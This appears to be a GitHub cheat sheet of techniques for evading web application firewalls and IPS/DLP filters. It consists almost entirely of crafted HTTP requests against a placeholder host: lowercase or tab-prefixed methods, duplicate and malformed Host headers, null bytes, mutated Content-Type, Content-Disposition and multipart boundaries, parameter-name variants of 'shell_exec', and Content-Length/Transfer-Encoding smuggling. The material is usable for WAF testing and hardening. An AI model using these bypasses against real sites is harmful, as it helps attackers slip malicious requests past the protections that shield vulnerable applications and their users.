 # WAF-bypass-Cheat-Sheet

# WAF/IPS/DLP bypass Cheat Sheet
Another way to bypass

**Add \r\n before the first line HTTP request**  

```py

GET /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```


**Writing the method with a lowercase (Apache)**
```py
get /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Tabs before the method (IIS)**
```py
    GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**GET /login?shell_exec HTTP/1.1**
```py
GET /login?shell.exec HTTP/1.1
GET /login?shell[exec HTTP/1.1
GET /login?shell%5bexec HTTP/1.1
GET /login?shell%2eexec HTTP/1.1
GET /login?shell%5fexec HTTP/1.1
GET /login?shell%20exec HTTP/1.1
```

**GET /login.php?pam_param=test3**
```py
GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
```

**GET /login.php?hello=world HTTP/1.1**
```py
GET /login.php?hello%00another_text=world HTTP/1.1
```

**HTTP Request - absoluteURI**
```py
GET http://localhost/login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Double host header**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
Host: localhost
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host with lowercase**
```py
GET /login.php HTTP/1.1
host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host without space**
```py
GET /login.php HTTP/1.1
Host:favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with tab**
```py
GET /login.php HTTP/1.1
Host:	favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with addition symbols**

/
:
\x00
\x20
\x09
\xad (IIS)

Example:
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com:12345
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

```py
GET /login.php HTTP/1.1
Host: favoritewaf.com ignored.text
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Content-Type with another text** 
```py
POST /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Type: application/another-text/+++x-www-form-urlencoded

hello=world
```

**HTTP request with incorrect Content-Length (more data than specified)**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Length: 1

AAAAAAAA
```

**Double Content-Type**
```py
Content-Type: multipart/form-data; boundary=ZZZ
Content-Type: multipart/form-data; boundary=AAA
```

**Content-Disposition mutation**
```py
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=--------1218108630

----------1218108630
Content-Disposition: form-data; name="hello"

world
----------1218108630--
```

```py
Content-Disposition: form-data; name="hello"
Content-Disposition: form-data; name="hello
Content-Disposition: form-data; name="hello"world"
Content-Disposition: attachment; name="hello"
```


```py
Content-Type: multipart/form-data; boundary=x


--x
Content-Disposition:
test1;
--x
test2;
--x--
test3;
name="hello"

world
```
**Boundary mutation**
**PHP**

```py
Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
==
Content-Type: multipart/form-data; boundary=X;
```


**Nullbyte**
```py
Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
==
Content-Type: multipart/form-data; boundary=HELLO
```

**Ignored Content-Length**
```py
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

hello=world
```

==
```py
Content-Length: 22
Transfer-Encoding: chunked

0B
hello=world
0

```

==
```py
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
hel
3
lo=
3
wor
2
ld
0
```
